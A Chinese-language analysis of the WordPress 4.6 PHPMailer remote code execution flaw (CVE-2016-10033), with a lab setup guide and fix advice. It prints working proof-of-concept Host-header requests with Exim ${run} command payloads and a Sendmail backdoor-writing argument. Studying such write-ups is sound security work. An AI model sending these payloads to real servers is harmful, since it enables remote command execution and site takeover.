




# wordpress 4.6远程命令执行漏洞分析 #

## 1.&emsp;漏洞描述 ##

* 漏洞编号： CVE-2016-10033
* 漏洞简述： WordPress 4.6 版本远程代码执行漏洞是一个非常严重的漏洞，未经授权的攻击者利用该漏洞就能实现远程代码执行，针对目标服务器实现即时访问，最终导致目标应用服务器的完全陷落。远程攻击者可以利用该漏洞执行代码。
* 影响版本： WordPress <4.7.1
* 漏洞发现者：dawid_golunski

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;这个漏洞主要是PHPMailer漏洞（CVE-2016-10033）在WordPress Core代码中的体现，该漏洞不需要任何的验证和插件，在默认的配置情况下就可以利用。远程攻击者可以利用该漏洞执行代码。

## 3.&emsp;漏洞原理分析及POC构造 ##

### 3.1 &emsp;漏洞代码分析 ###

**主要漏洞代码：**

	if ( !isset( $from_email ) ) {
			// Get the site domain and get rid of www.
			$sitename = strtolower( $_SERVER['SERVER_NAME'] );
			if ( substr( $sitename, 0, 4 ) == 'www.' ) {
				$sitename = substr( $sitename, 4 );
			}

			$from_email = 'wordpress@' . $sitename;
		}

	/**
	 * Filters the email address to send from.
	 *
	 * @since 2.2.0
	 *
	 * @param string $from_email Email address to send from.
	 */
	$from_email = apply_filters( 'wp_mail_from', $from_email );

	/**
	 * Filters the name to associate with the "from" email address.
	 *
	 * @since 2.3.0
	 *
	 * @param string $from_name Name associated with the "from" email address.
	 */
	$from_name = apply_filters( 'wp_mail_from_name', $from_name );

	$phpmailer->setFrom( $from_email, $from_name, false );

代码显示sitename是从SERVER变量取出的SERVERNAME，去掉www.头部再和wordpress@进行拼接的。 而SERVERNAME变量在apache是可以由客户端http请求头部的host指定的。

需要注意的是，host改变后不会影响数据的发送，但是如果服务器上存在多个虚拟主机，那么host会用于判断把请求分配给哪个虚拟主机处理，此时的host被修改会导致报错。

通过wordpress的密码找回功能可以出发wp_mail函数，请求如下

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenialINJECT  
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
	Accept-Language: en-US,en;q=0.5  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 56  
	Cookie: wordpress_test_cookie=WP+Cookie+check  
	Connection: close

	user_login=admin&redirect_to=&wp-submit=Get+New+Password

传递给/usr/sbin/sendmail的参数如下

	Arg no. 0 == [/usr/sbin/sendmail]  
	Arg no. 1 == [-t]  
	Arg no. 2 == [-i]  
	Arg no. 3 == [-fwordpress@xenialinject]  

可以看出第三个参数@后面的内容被用户控制了，而且变成了小写。

由于代码根据-来分割参数，那么就可以通过增加-来增加参数，接下来就要想办法增加第五个参数。

但是参数传递过程中还有很多过滤器，接下来作者对绕过的过程进行了详尽的描述，不得不佩服。

### 3.2 &emsp;空格限制 ###

首先是空格的处理，如果host中出现了空格，会导致500报错，导致代码无法触发PHPMailer。

作者之前发现的PHPMailer漏洞中控制的变量username这次又不可控。

对电子邮件标准格式RFC 822进行研究后，作者发现其中提到了注释(comment)的用法，比如john@example.com(comment)。 经过测试，域名的comment中是允许出现空格的，于是有了如下请求头：

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenial(tmp1 injected tmp2)

代码处理后变量如下：

	Arg no. 0 == [/usr/sbin/sendmail]  
	Arg no. 1 == [-t]  
	Arg no. 2 == [-i]  
	Arg no. 3 == [-fwordpress@xenial(tmp1]  
	Arg no. 4 == [injected]  
	Arg no. 5 == [tmp2)]  

成功绕过了限制并增加了参数。

### 3.3 &emsp;尝试通过Sendmail MTA执行命令 ###

之前已知的命令执行依赖server端使用的Sendmail MTA，比如使用如下参数写日志文件达到写shell的目的： -OQueueDirectory=/tmp/ -X/var/www/html/backdoor.php

这里有两个问题  

1. Sendmail 是linux MTA里使用量最小的MTA
2. 大写会被转换成小写，导致大写参数无法正常使用

### 3.4 &emsp;通过Exim4 MTA执行命令 ###

作者发现通过Exim4 MTA可以实现命令执行，而且使用量在linux中数一数二，增加了漏洞的利用成功率。

可执行命令的形式如下：

	sendmail -be '${run{/bin/true}{true}{false}}'

返回true -be参数使用了扩展字符串模式，会执行/bin/true并根据exit code返回括号中的内容

如下命令：

	sendmail -be '${run{/bin/bash -c "id"}{yes}{no}}'

会执行id命令

注意:在使用Exim4 MTA的系统中，/usr/sbin/sendmail是exim4的软链接

然而又不允许 `/`，作者通过`sendmail -be '${substr{0}{1}{$spool_directory}}'`从系统变量中抽取了`/`,最后拼接了可以在命令行下使用的payload。

执行如下语句

	sendmail -be '${run{/usr/bin/touch /tmp/test}}'

需要改成

	sendmail -be '${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch ${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}'  

发送包：

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenial(tmp1 -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch ${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}  tmp2)

获得变量

	Arg no. 0 == [/usr/sbin/sendmail]  
	Arg no. 1 == [-t]  
	Arg no. 2 == [-i]  
	Arg no. 3 == [-fwordpress@xenial(tmp1]  
	Arg no. 4 == [-be]  
	Arg no. 5 == [${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch]  
	Arg no. 6 == [${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}]  
	Arg no. 7 == [tmp2)]  

可以发现此时又出问题了，参数中出现的空格，导致参数被分割了。 于是作者通过sendmail -be '${substr{10}{1}{$tod_log}}'从环境变量中抽取了空格。

最终poc请求如下:

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenial(tmp1 -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}  tmp2)  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 56

	user_login=admin&redirect_to=&wp-submit=Get+New+Password

命令会在/tmp目录下创建test文件

## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境准备 ###

1. Ubuntu14.04 虚拟机（虚拟机或其他Linux都可）
2. WordPress-4.6源码
3. Apache+php+MySql环境
3. sendmail 和 exim4扩展

**注：** 虚拟机中也可以直接执行：

	apt-get install -y --force-yes php5-mysql php5-dev php5-gd php5-memcache php5-pspell php5-snmp snmp php5-xmlrpc libapache2-mod-php5 php5-cli exim4

将所需的环境都装上。

### 4.2&emsp;靶场搭建 ###

把下载的源码拷进Apache根目录，解压源码，然后直接通过浏览器访问按照正常的wordpress安装流程安装即可。

### 4.3&emsp;漏洞验证 ###

1.浏览器访问wordpress主页，进入登录页面点击忘记密码进入密码找回页面

2.浏览器设置代理拦截找回密码request请求包

3.点击数据包，send Repeater 构造攻击payload发送攻击数据包

构造payload：

	Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}manning.test}} null)

将`${substr{0}{1}{$spool_directory}}`和`${substr{10}{1}{$tod_log}}`进行替换，我们得到的payload是`Host: target(any -froot@localhost -be ${run{/usr/bin/touch /tmp/manning.test}} null)`，即在/tmp 目录下生产manning.test文件

4.点击go按钮，发送数据包，查看目标服务器中manning.test文件是否生成：

可以看到成功生成manning.test文件，代码执行成功。
## 5.&emsp;修复意见 ##

&emsp;&emsp;升级到wordpress 4.7.1以上版本

## 6.&emsp;参考资料 ##

* [WordPress 4.6 远程代码执行漏洞分析](http://bobao.360.cn/learning/detail/3814.html "http://bobao.360.cn/learning/detail/3814.html")
* [https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html "https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html")
* [wordpress 4.6远程命令执行漏洞](https://ht-sec.org/wordpress-4-6yuan-cheng-ming-ling-zhi-xing-lou-dong/ "https://ht-sec.org/wordpress-4-6yuan-cheng-ming-ling-zhi-xing-lou-dong/")
